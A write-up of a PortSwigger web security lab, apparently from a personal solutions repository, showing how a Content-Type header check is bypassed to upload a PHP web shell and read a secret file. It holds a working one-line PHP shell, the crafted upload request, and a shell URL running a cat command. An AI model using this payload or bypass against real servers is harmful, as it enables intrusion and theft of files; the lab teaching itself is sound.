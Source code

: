 # [Lab: Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file  `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials:  `wiener:peter`

## Analysis

server-side depends on Content-Type header to determine filetype, but this can be modified on client-side

## Exploit

1. Try directly upload shellcode like [previous lab](./1.%20Remote%20code%20execution%20via%20web%20shell%20upload.md):

    ```text
    Sorry, file type application/x-php is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
    ```

2. Modify Content-Type header:

    ```http
    POST /my-account/avatar HTTP/1.1
    ...
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryumgvvXvThFvAApaR
    ...

    ------WebKitFormBoundaryumgvvXvThFvAApaR

    Content-Disposition: form-data; name="avatar"; filename="test.php"
    Content-Type: image/jpeg

    <?php echo system($_GET['command']); ?>
    ...
    ```

    =\> successfully uploaded `test.php` file

3. Select `open image in new tab` to get image's link: <https://lab-id.web-security-academy.net/files/avatars/test.php>
4. Access shellcode:

    ```url
    https://0a8e003c04c7a1f3c0b26d8e006e009b.web-security-academy.net/files/avatars/test.php?command=cat+/home/carlos/secret
    ```

result:

```text
895Pamr13huKgEVjGMmb1wZXi1F5Bwc2895Pamr13huKgEVjGMmb1wZXi1F5Bwc2
```

flag is still repeated twice

